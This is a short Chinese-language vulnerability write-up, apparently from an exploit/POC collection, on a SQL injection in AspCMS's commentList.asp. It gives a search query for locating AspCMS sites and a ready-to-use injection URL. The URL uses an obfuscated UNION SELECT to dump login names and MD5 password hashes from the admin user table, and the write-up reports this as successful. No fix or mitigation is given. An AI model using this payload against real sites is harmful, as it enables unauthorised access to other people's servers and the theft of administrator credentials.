

# AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## 网络测绘

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS


验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```



成功获取管理员账号以及密码的MD5